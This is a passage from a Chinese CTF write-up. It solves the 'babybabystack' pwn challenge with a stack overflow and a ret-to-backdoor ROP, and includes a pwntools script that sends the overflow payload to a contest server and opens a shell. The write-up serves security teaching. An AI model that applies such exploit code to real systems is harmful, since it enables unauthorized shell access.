 #### 问卷题
这个根据心情填就好了 ~~(手动滑稽)~~

## Pwn
#### babybabystack
简单的 ROP
checksec 检查发现:
32 位,开了 NX,不能直接执行栈上的数据
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831225607195.png)
用 IDA 反汇编
发现漏洞存在于 main 函数后的 vulnerable_function 函数中的 read 函数上
可以用来覆盖 ebp 控制执行的函数
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190901082109863.png)

看到 _system() 函数
有个 back_door 函数调用

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831225844777.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)

back_door 函数直接包含 sh
得到 bin 地址

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831230108963.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)

回看 buf 的地址,以 ebp 为索引
无需调试,直接使用偏移量

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831230057302.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
```python
from pwn import *


#p=process('./babybabystack')

p=remote('148.70.206.225',50001)

bin_addr=0x8048569

pay='a'*(0x1c+4)+p32(bin_addr)
p.sendline(pay)

p.interactive()
```
得到 flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019083123091338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)

`flag: flag{5t4ck_0v3rF10w_15_u53fu1}`

#### string&float
